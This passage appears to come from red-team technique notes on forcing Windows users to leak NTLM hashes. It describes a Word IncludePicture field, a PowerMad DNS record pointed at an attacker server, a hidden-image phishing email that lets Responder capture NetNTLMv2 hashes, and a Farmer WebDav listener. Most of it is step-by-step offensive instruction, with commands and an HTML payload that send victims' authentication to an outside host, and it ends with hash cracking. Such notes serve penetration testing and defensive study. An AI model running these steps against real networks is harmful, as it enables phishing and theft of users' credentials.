 {% file src="../../.gitbook/assets/test-xls-stylesheet (1).xml" %}
test-xls-stylesheet.xml
{% endfile %}

## Execution via Field IncludePicture

Create a new Word document and insert a new field `IncludePicture`:

![](<../../.gitbook/assets/Screenshot from 2018-12-09 17-01-11.png>)

Save the file as .xml. Note that the sneaky image url is present in the XML:

![](<../../.gitbook/assets/Screenshot from 2018-12-09 17-02-32.png>)

Launching the document gives away victim's hashes immediately:

![](<../../.gitbook/assets/Peek 2018-12-09 17-04.gif>)

{% file src="../../.gitbook/assets/smb-image.xml" %}
smb-image.xml
{% endfile %}

## Execution via HTTP Image and Internal DNS

If we have a foothold in a network, we can do the following:

* Create a new DNS A record (any authenticated user can do it) inside the domain, say `offense.local`, you have a foothold in, and point it to your external server, say `1.1.1.1`
  * Use [PowerMad](https://github.com/Kevin-Robertson/Powermad) to do this with: `Invoke-DNSUpdate -dnsname vpn -dnsdata 1.1.1.1`
* On your controlled server 1.1.1.1, start `Responder` and listen for HTTP connections on port 80
* Create a phishing email, that contains `<img src="http://vpn.offense.local"/>`&#x20;
  * Feel free to make the image 1x1 px or hidden
  * Note that `http://vpn.offense.local` resolves to `1.1.1.1` (where your Responder is listening on port 80), but only from inside the `offense.local` domain
* Send the phish to target users from the `offense.local` domain
* Phish recipients view the email, which automatically attemps to load the image from `http://vpn.offense.local`, which resolves to `http://1.1.1.1` (where Responder is litening on port 80)
* Responder catches NetNLTMv2 hashes for the targeted users with no user interaction required
* Start cracking the hashes
* Hopefully profit

## Farmer WebDav

When inside a network, we can attempt to force hash leaks from other users by forcing them to authenticate to our WebDav server that we can bind to any an unused port without administrator privileges. To achieve this, we can use a tool called [Farmer](https://github.com/mdsecactivebreach/Farmer) by [@domchell](https://twitter.com/domchell?s=20).

Below will make the farmer listen on port 7443:

```
Farmer.exe 7443
```
